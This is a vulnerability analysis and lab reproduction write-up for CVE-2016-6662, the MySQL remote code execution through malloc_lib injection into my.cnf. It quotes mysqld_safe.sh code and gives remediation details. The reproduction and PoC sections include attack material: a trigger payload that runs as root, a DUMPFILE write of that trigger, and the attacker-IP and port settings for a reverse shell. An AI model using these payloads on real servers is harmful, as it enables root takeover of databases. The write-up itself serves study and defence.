

# CVE-2016-6662 CWE-264 Mysql RCE

## Vulnerability Background
**CWE-264 (Permissions, Privileges, and Access Controls):** "Improper permissions, privileges, and access control" refers to the system's failure to properly restrict users or processes from accessing resources, potentially causing unauthorized access, data breaches, or privilege escalation and other security issues. Such vulnerabilities are common in cases where permission verification logic is not tight, permission configuration is incorrect, or there is a lack of implementation of the least privilege principle.

## Vulnerability Mechanism
The principle behind CVE-2016-6662 is that attackers modify MySQL's `general_log_file` configuration to write generic logs into configuration files like `/etc/my.cnf`, then inject malicious configurations (such as `malloc_lib` to malicious dynamic libraries) by executing forged SQL statements, which automatically load the database when MySQL reboots. This enables arbitrary code execution, and ultimately, system control may be gained with root privileges.

## Vulnerability Location
In MySQL 5.7.10, file scripts\mysqld_safe.sh is used. MySQL uses this mysqld_safe script to start MySQL service processes. Here, the shared library file is preloaded before starting MySQL Server via parameter `–malloc-lib = LIB`.

In scripts\mysqld_safe.sh file

Starting from line 441, the script uses the `my_print_defaults` (or `mysql_print_defaults`) tool to read parameters from the configuration file, including the `[mysqld_safe]` and `[mysqld]` sections. `parse_arguments` function will then be called.

```sh
# ...
# Get first arguments from the my.cnf file, groups [mysqld] and [mysqld_safe]
# and then merge with the command line arguments
if test -x "$MY_BASEDIR_VERSION/bin/my_print_defaults"
then
  print_defaults="$MY_BASEDIR_VERSION/bin/my_print_defaults"
# ... 
else
  print_defaults="my_print_defaults"
fi

parse_arguments `$print_defaults $defaults --loose-verbose mysqld server`
# ...
parse_arguments `$print_defaults $defaults --loose-verbose mysqld_safe safe_mysqld`
parse_arguments PICK-ARGS-FROM-ARGV "$@"
# ...
```

At line 173 `parse_arguments` function handles extracted parameters and merges them with command-line arguments; at line 192, `set_malloc_lib` function handles `--malloc-lib` options.

```sh
parse_arguments() {
    # ...
        case "$arg" in
    # ...
          --malloc-lib=*) set_malloc_lib "$val" ;;
    # ...
        esac
    # ...
}
```

Line 322 `set_malloc_lib` function is used to set the loading path for dynamic link libraries, allowing administrators to specify a custom shared library for MySQL memory allocation. The key point is that this version of the script only verifies whether the path is absolute and readable when checking library paths, and **does not strictly limit the source directories that can be loaded from libraries**. Then call the `add_mysqld_ld_preload` function.

If an attacker can inject the path pointing to their malicious library into the configuration file, they will be able to preload any library and execute any code with root privileges when the MySQL service restarts.

```sh
# set_malloc_lib LIB
# - If LIB is empty, do nothing and return
# - If LIB is 'tcmalloc', look for tcmalloc shared library in /usr/lib
#   then pkglibdir.  tcmalloc is part of the Google perftools project.
# - If LIB is an absolute path, assume it is a malloc shared library
#
# Put LIB in mysqld_ld_preload, which will be added to LD_PRELOAD when
# running mysqld.  See ld.so for details.
set_malloc_lib() {
  malloc_lib="$1"

  if [ "$malloc_lib" = tcmalloc ]; then
    # ... (tcmalloc specific logic) ...
  fi

  # Allow --malloc-lib='' to override other settings
  [ -z  "$malloc_lib" ] && return

  case "$malloc_lib" in
    /*) # Check whether it is an absolute path
      if [ ! -r "$malloc_lib" ]; then # Determine whether it is readable
        log_error "--malloc-lib '$malloc_lib' can not be read and will not be used"
        exit 1
      fi
      ;;
    *)
      log_error "--malloc-lib must be an absolute path or 'tcmalloc'; " \
        "ignoring value '$malloc_lib'"
      exit 1
      ;;
  esac

  add_mysqld_ld_preload "$malloc_lib" # Add the library to the preload list
}
# ...
```

At line 248, the `add_mysqld_ld_preload` function will add the specified library path to the `mysqld_ld_preload` variable at line 273.

```sh
# Add a single shared library to the list of libraries which will be added to
# LD_PRELOAD for mysqld
#
# Since LD_PRELOAD is a space-separated value (for historical reasons), if a
# shared lib's path contains spaces, that path will be prepended to
# LD_LIBRARY_PATH and stripped from the lib value.
add_mysqld_ld_preload() {
  lib_to_add="$1"
  log_notice "Adding '$lib_to_add' to LD_PRELOAD for mysqld"

  case "$lib_to_add" in
    *' '*)
      # Must strip path from lib, and add it to LD_LIBRARY_PATH
      lib_file=`basename "$lib_to_add"`
      case "$lib_file" in
        *' '*)
          # The lib file itself has a space in its name, and can't
          # be used in LD_PRELOAD
          log_error "library name '$lib_to_add' contains spaces and can not be used with LD_PRELOAD"
          exit 1
          ;;
      esac
      lib_path=`dirname "$lib_to_add"`
      lib_to_add="$lib_file"
      [ -n "$mysqld_ld_library_path" ] && mysqld_ld_library_path="$mysqld_ld_library_path:"
      mysqld_ld_library_path="$mysqld_ld_library_path$lib_path"
      ;;
  esac

  # LD_PRELOAD is a space-separated
  [ -n "$mysqld_ld_preload" ] && mysqld_ld_preload="$mysqld_ld_preload "
  mysqld_ld_preload="${mysqld_ld_preload}$lib_to_add"
}

```

`mysqld_safe` scripts will ultimately use `eval` to execute `mysqld` daemon. Before execution, it uses the `mysqld_ld_preload_text` function at line 281 to set the library path from the `mysqld_ld_preload` variable (now including the malicious library path specified by the attacker) to the `LD_PRELOAD` environment variable.

```sh
mysqld_ld_preload_text() {
  text=

  if [ -n "$mysqld_ld_preload" ]; then
    new_text="$mysqld_ld_preload"
    [ -n "$LD_PRELOAD" ] && new_text="$new_text $LD_PRELOAD"
    text="${text}LD_PRELOAD="`shell_quote_string "$new_text"`' ' # Construct LD_PRELOAD environment variables
  fi

  if [ -n "$mysqld_ld_library_path" ]; then
    new_text="$mysqld_ld_library_path"
    [ -n "$LD_LIBRARY_PATH" ] && new_text="$new_text:$LD_LIBRARY_PATH"
    text="${text}LD_LIBRARY_PATH="`shell_quote_string "$new_text"`' '
  fi

  echo "$text"
}
# ...
cmd="`mysqld_ld_preload_text`$NOHUP_NICENESS" # Add LD_PRELOAD to the command

for i in  "$ledir/$MYSQLD" "$defaults" "--basedir=$MY_BASEDIR_VERSION" \
  "--datadir=$DATADIR" "--plugin-dir=$plugin_dir" "$USER_OPTION"
do
  cmd="$cmd "`shell_quote_string "$i"`
done
cmd="$cmd $args"
# ...
eval_log_error "$cmd" # Execute commands using eval
# ...
```

## Remediation
Restricting the `malloc-lib` loading path: `mysqld_safe` scripts are modified so that when loading shared libraries via `--malloc-lib` options (whether specified directly in the command line or read via configuration files), they are limited to coming from trusted system directories (such as `/usr/lib`, `/usr/lib64`, `/usr/lib/i386-linux-gnu`, `/usr/lib/x86_64-linux-gnu`), and MySQL itself. This prevents attackers from specifying and loading malicious shared libraries located on any other path by controlling configuration files.

## Affected Versions
1. Impact Version:

- mysql <= 5.7.15
   - mysql <= 5.6.33
   - mysql <= 5.5.52

2. Vulnerability Exploitation Conditions:

- The attacker has FILE privileges for the database user.
   - Configuration files of the target system (such as `my.cnf`) are writable to MySQL users, or MySQL data directories are writable to MySQL users.
   - Start the database using `mysqld_safe` startup scripts

## Environment Setup
Start the Docker environment, MySQL version 5.7.10, administrator user root password, password 12345, enter the container command line and enter mysqld_safe to start MySQL.

1. The container creates a regular user testuser, with the password testpwd. It has a default database test, which is usually automatically created when installing MySQL for testing purposes.

2. After launching Docker, go to the command line docker exec -it mysql-5.7.10 /bin/bash, enter the command mysqld_safe to start MySQL

3. There must be a my.cnf file in the environment, because the payload in EXP adds a log section to disguise itself, thereby bypassing certain detection mechanisms. However, when MySQL starts, it does not "skip" the log header; it strictly parses the entire file according to the configuration syntax, and the beginning must be `[]` syntax. Therefore, you need to add content to an existing cnf to bypass the check, and MySQL does not create this file by default. In Docker, copy the default cnf configuration to /etc/my.cnf, and set the user to mysql so that database users can modify it.

4. Conditions for vulnerability exploitation must be met:

- The attacker has FILE privileges for the database user.
- Configuration files of the target system (such as `my.cnf`) are writable to MySQL users, or MySQL data directories are writable to MySQL users.
- Start the database using `mysqld_safe` startup scripts


## Vulnerability Reproduction
MySQL runs on 192.168.233.153, with the attack machine at 192.168.233.133

The EXP file contains two files: CVE-2016-6662-EXP.py and mysql_hookandroot_lib.c

1. Modify lines 63-65 of the mysql_hookandroot_lib.c file, change it to the attack machine's IP and change it to the existing my.cnf file path in the container /etc/my.cnf, using the default bounce port 6033.

```c
#define ATTACKERS_IP "<attacker-ip>"
#define SHELL_PORT 6033
#define INJECTED_CONF "/etc/my.cnf"
```

2. Run the EXP file on the attack machine, enter the database user and password with FILE permissions, database name, database IP, and the target system's configuration file. After running, EXP waits for MySQL to restart.

```bash
python CVE-2016-6662-EXP.py
```

If the mysql.connector module is missing and an error is reported, use the command to install the mysql-connector-python module

```bash
pip install mysql-connector-python --break-system-packages
```

3. Because the command line freezes after running MySQL with mysqld_safe, open a new container command line in the folder where Docker is located, close MySQL and restart using mysqld_safe. Although restarting causes errors, the attack machine can see the 'exp' successfully bounce the command line

```bash
docker exec -it mysql-5.7.10 /bin/bash
service mysql stop
mysqld_safe
```




## PoC Analysis
**Connecting to the Database**: First, the script establishes a connection to the target database through MySQL's `mysql.connector` module and verifies whether the provided user has sufficient permissions.

**Compiling and Uploading Shared Libraries**: Attackers upload a malicious shared library (`mysql_hookandroot_lib.so`), which is loaded into the MySQL process and executes malicious code.

**Create Trigger**: The script injects a trigger into the target database, which is triggered when data is inserted into the `poctable` table. It executes malicious SQL, modifies the MySQL configuration file, and injects the malicious library path.

**Modifying MySQL Configuration**: By setting MySQL's `general_log_file` and `malloc_lib` configuration items, the malicious library is designated as a shared library loaded at MySQL startup, thereby executing the attacker's code when MySQL starts.

**Listening for Reverse Shell**: When the trigger is executed, MySQL loads the malicious library and executes a reverse shell to connect to the attacker's machine. Attackers can obtain the shell of the target system by listening on a specified port (6033).

In MySQL, you can enable general_log (requiring a root user), modify the general_log path, and write the malicious configuration items into the my.cnf file. The key to using the non-root user in the exp is that the trigger_payload on line 102 uses the trigger TRIGGER, which is configured by adding configuration to the my.cnf file via general_log. MySQL triggers can be executed by setting the DEFINER parameter to execute the trigger's SQL statements as other users.

```c
trigger_payload = """TYPE=TRIGGERS
triggers='CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf\\nAFTER INSERT\\n   ON `poctable` FOR EACH ROW\\nBEGIN\\n\\n   DECLARE void varchar(550);\\n   set global general_log_file=\\'%s\\';\\n   set global general_log = on;\\n   select "\\n\\n# 0ldSQL_MySQL_RCE_exploit got here :)\\n\\n[mysqld]\\nmalloc_lib=\\'%s\\'\\n\\n[abyss]\\n" INTO void;   \\n   set global general_log = off;\\n\\nEND'
```

At line 118, this trigger is written to the file via MySQL's dumpfile statement. MySQL trigger files are stored in database folders under the database file directory, with file names corresponding to table names. When operations are performed on tables, the flip-flop is also executed.

```c
cursor.execute(f"""SELECT unhex("{trigger_payload_hex}") INTO DUMPFILE '{TRG_path}'""")
```

## References
[NVD - CVE-2016-6662](https://nvd.nist.gov/vuln/detail/CVE-2016-6662)

[MySQL-Vulnerability-Remote-Root-Code-Execution-privilege-escalation-CVE-2016-6662 --- MySQL-exploit-remote-root-code-execution-privesc-CVE-2016-6662](https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html)

[CVE-2016-6662 Analysis and Mysql-Related Technology Exploration - FreeBuf Cybersecurity Industry Portal](https://www.freebuf.com/vuls/243513.html)

[Analysis and Practice of MySQL Remote Code Execution/Privilege Escalation Vulnerability (CVE-2016-6662)](https://paper.seebug.org/46/#0x02)
